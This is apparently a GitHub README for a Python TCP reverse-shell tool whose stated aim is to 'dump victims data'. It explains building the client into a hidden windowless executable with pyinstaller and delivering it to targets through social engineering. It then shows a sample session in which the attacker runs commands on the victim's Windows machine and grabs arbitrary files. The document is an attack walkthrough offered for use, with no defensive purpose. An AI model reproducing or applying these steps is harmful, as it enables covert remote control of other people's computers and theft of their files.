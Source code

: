 # tcp-shell
DEMO AND WORKING EXAMPLE

needs basic concepts about networking in python

hacking through tcp reverse shell to dump victims data
HERE i have provided two files 

1)myser.py

its job is to create a tcp server on our system and make a connection from victim

2)mycli.py

its job is to connect to server .mycli.py is a python script so its too weird to execute a python script on target machine

next step invoves changing the mycli.py to exe(executable file) 
it involves a module importing

pyinstaller

to import it:in terminal just type

pip install pyinstaller

pyinstaller -F -w client.py

yahoo next to send the exe to target .it needs some social enginnering skills

o executing methods
  
  python3 myser.py
  
  enter the ip:192.168.43.155 (enter your ip here)
  
  enter the port:8080
  
  [+] listening for incoming connections
  
  [+] connection established ('192.168.43.155', 52902)(when target clicks the exe)
  
  shell>>ipconfig
  
  shell>>terminate(close the connection)
  
  shell>>dir (shows windows diectory)
  
  shell>>grab=(any file on target)

  

  
  

  
  

  

  

